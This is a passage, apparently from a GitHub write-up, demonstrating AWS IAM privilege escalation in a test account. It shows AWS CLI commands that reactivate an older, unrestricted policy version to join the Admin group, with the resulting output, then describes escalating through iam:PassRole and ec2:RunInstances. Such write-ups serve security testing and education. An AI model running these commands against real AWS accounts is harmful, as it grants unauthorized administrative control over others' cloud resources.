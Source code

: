 ```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile privesc
```

An error occurred (AccessDenied) when calling the AddUserToGroup operation: User: arn:aws:iam::[REDACTED]:user/privesc_test is not authorized to perform: iam:AddUserToGroup on resource: group Admin with an explicit deny

However, an older version of  VulnerablePolicy has unlimited AWS permissions. The user can set the older version of the policy as the default (active) version, and gain full administrative privileges over the AWS account:

```bash
➜ aws iam set-default-policy-version --policy-arn arn:aws:iam::[REDACTED]:policy/VulnerablePolicy --version-id v1 --profile privesc
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile privesc
➜ aws iam list-groups-for-user --user-name privesc_test --profile privesc
```

```json
{
    "Groups": [
        {
            "Path": "/",
            "CreateDate": "2019-03-15T20:36:49Z",
            "GroupId": "AGPAIIDFTH4LJ2TIO6G4I",
            "Arn": "arn:aws:iam::[REDACTED]:group/privesc2",
            "GroupName": "privesc2"
        },
        {
            "Path": "/",
            "CreateDate": "2019-10-11T16:22:31Z",
            "GroupId": "AGPAS4WERQEFLF6A2LYFQ",
            "Arn": "arn:aws:iam::[REDACTED]:group/Admin",
            "GroupName": "Admin"
        }
    ]
}
```

## 03 - iam:PassRole and ec2:RunInstances

### Description
The iam:PassRole permission allows a user to pass a role to another AWS resource. The ec2:RunInstances permission allows a user to run EC2 instances. With these two permissions, the user can create a new EC2 instance which they have SSH access to, pass a role to the instance with permissions that the user does not have currently, log into the instance, and request AWS keys for the role.

### Requirements
* The user needs to be able to pass a role to the instance with permissions that the user does not currently have.
* The role needs to allow ec2.amazonaws.com to assume it.
* The user needs to have some way to SSH into the newly created instance.
* In the example below, the user assigns a public SSH key stored in AWS to the instance and the user has access to the matching private key.
